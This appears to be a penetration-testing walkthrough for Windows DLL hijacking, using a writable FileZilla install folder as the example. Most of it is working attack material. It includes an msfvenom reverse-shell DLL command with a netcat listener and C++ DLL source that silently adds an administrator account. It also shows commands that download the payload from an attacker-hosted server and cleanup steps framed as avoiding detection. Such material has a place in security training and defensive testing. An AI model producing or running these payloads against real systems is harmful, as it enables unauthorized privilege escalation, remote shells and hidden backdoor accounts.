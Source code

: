 ## DLL Hijacking

### Overview
Dynamic Link Libraries (DLLs) are essential components in Windows systems that provide shared functionality for applications and services. When an application or service looks for a required DLL, it follows a predefined **DLL search order**:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories listed in the PATH environment variable.

A misconfiguration or missing DLL can create an opportunity for **DLL Hijacking**, where a malicious DLL placed in a writable directory is loaded instead of the legitimate one. If the application runs with elevated privileges, the malicious DLL will execute with the same level of access.

---

### Step 1: Identify Writable Directories and Missing DLLs
First, identify directories where you have write permissions and locate missing DLLs being searched for by applications or services.

1. **Search for Writable Directories**:
   Run **WinRecon.ps1** to enumerate writable directories and check for vulnerable DLLs:
   - **Option 2**: Run Custom Recon - (Select which functions to enable).
   - **Option 18**: Perform DLL Hijacking checks against known vulnerable software and directories.

Example Output:

![image](https://github.com/user-attachments/assets/6639ec58-b090-4e72-9af0-687bc28daaa4)
![image](https://github.com/user-attachments/assets/475bbb6b-f128-4c6f-bf3f-b4c71f199678)


In this example, the `FileZilla` application directory is writable, and the program attempts to load `TextShaping.dll`, making it a potential candidate for DLL hijacking.

---

### Step 2: Confirm Writable Permissions
Verify that the identified directory allows you to write files:

```powershell
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

Check if the file was successfully created:
```powershell
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

If successful, you have sufficient permissions to place a malicious DLL in this directory.

---

#### Step 3: Create a Malicious DLL
-
  ### Option 1: Using msfvenom
  -
    On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll -o EnterpriseServiceOptional.dll
    ```
    ```bash
    nc -nlvp <LPORT>
    ```
-
  ### Option 2. Compile with the following C program:

  -
    #### Malicious DLL Code in C++:
    ```cpp
    #include <stdlib.h>
    #include <windows.h>

    BOOL APIENTRY DllMain(
    HANDLE hModule,// Handle to DLL module
    DWORD ul_reason_for_call,// Reason for calling function
    LPVOID lpReserved ) // Reserved
    {
        switch ( ul_reason_for_call )
        {
            case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
                i = system ("net user taskmgrsvc Password123! /add");
                i = system ("net localgroup administrators taskmgrsvc /add");
            break;
            case DLL_THREAD_ATTACH: // A process is creating a new thread.
            break;
            case DLL_THREAD_DETACH: // A thread exits normally.
            break;
            case DLL_PROCESS_DETACH: // A process unloads the DLL.
            break;
        }
        return TRUE;
    }
    ``` 
    #### Compile the DLL:
    On your Kali machine, cross-compile the DLL using `mingw-w64`:

    ```bash
    x86_64-w64-mingw32-gcc <File>.cpp --shared -o <File>.dll
    ```
    -
        **`--shared`**: Generates a DLL file.
---

### Step 4: Transfer the DLL to the Target Directory
Host the DLL on your attacker machine and download it to the writable directory on the target system:

1. Start a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target system, download the DLL using PowerShell:
   ```powershell
   iwr -uri http://<attacker_ip>/TextShaping.dll -OutFile 'TextShaping.dll'
   ```
   ```powershell
   powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://<attacker_ip>/TextShaping.dll', 'TextShaping.dll')"
   ```
3. Move File
   ```powershell
   move TextShaping.dll 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
4. Confirm the file exists:
   ```powershell
   ls 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```

---

### Step 5: Trigger the DLL Hijacking
The DLL hijacking will occur when a higher-privileged user or system process runs the application. For example, when the `FileZilla` application is executed by an administrator or another user with elevated permissions, the malicious DLL will be loaded from the writable directory.

Wait for the application to be executed by someone with higher privileges.

---

### Step 6: Verify Exploitation
After the DLL executes, verify that the new user has been created and added to the Administrators group:

1. Check for the new user:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output**:
```plaintext
User accounts for \TARGETSYSTEM
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the malicious DLL was loaded, and the `taskmgrsvc` account was successfully added to the Administrators group.

---

### Cleanup
To avoid detection, clean up after exploitation:

1. Delete the malicious DLL:
   ```powershell
   del 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
   ```
2. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### Notes:
- Missing DLLs provide a great opportunity for code execution, especially if the search order allows loading from writable directories.
- Always verify writable permissions before deploying malicious DLLs.

---

### References
- [HackTricks - DLL Hijacking](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

---
